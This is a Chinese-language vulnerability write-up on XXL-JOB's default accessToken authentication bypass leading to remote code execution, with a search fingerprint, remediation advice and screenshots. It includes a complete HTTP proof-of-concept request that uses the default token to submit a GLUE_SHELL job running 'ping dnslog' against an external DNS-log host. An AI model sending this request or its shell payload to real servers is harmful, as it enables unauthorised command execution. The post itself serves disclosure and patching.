 ```yaml
---
layout: post
title: XXL-JOB默认accessToken身份绕过导致RCE
abbrlink: f995099ab7d24a37b68d22dc97743157
tags: []
categories:
  - 漏洞挖掘与复现
  - web应用
  - xxl-job
date: 1735134986100
updated: 1735134986101
---
```


```python
app="xxl-job"


XXL-JOB 是一款开源的分布式任务调度平台，用于实现大规模任务的调度和执行。

漏洞说明：
XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是随机生成的，而是使用 application.properties 配置文件中的默认值。在实际使用中如果没有修改默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，从而获取服务器权限。

修复方案：
修改调度中心和执行器配置项 xxl.job.accessToken 的默认值，注意要设置相同的值：
https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89


XXL-JOB-ACCESS-TOKEN: default_token

https://github.com/xuxueli/xxl-job/blob/72963e4716a74eacdcbdd2e999c433debf3afaa3/doc/XXL-JOB%E5%AE%98%E6%96%B9%E6%96%87%E6%A1%A3.md?plain=1#L1606
https://github.com/xuxueli/xxl-job/blob/72963e4716a74eacdcbdd2e999c433debf3afaa3/xxl-job-core/src/main/java/com/xxl/job/core/util/XxlJobRemotingUtil.java#L22
```

```python
POST /run HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
    Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default_token
Content-Length: 365

{
    "jobId": 1,
    "executorHandler": "demoJobHandler",
    "executorParams": "demoJobHandler",
    "executorBlockStrategy": "COVER_EARLY",
    "executorTimeout": 0,
    "logId": 1,
    "logDateTime": 1586629003729,
    "glueType": "GLUE_SHELL",
    "glueSource": "ping dnslog",
    "glueUpdatetime": 1586699003758,
    "broadcastIndex": 0,
    "broadcastTotal": 0
}

```

![1698927184365-e5a406ac-5c3e-4229-9396-026a831c21dc.png](/resources/ae08a112e1f047a69c086fc7eb25474d.png)

![1698927173145-6a454957-f83d-4447-9ca2-50bcd6d59c87.png](/resources/bca8874e1efe4f7eb21c57b138428dd8.png)

![1698927499604-86b4b44d-0e36-41be-8f11-9750c45c41e3.png](/resources/0befa13a3aec43a493ddf8f30ee7d0da.png)

> 更新: 2023-11-02 20:18:23\
> 原文: <https://www.yuque.com/yuqueyonghuwrqimt/vtxvff/fuxzdkyorzbmsmyl>
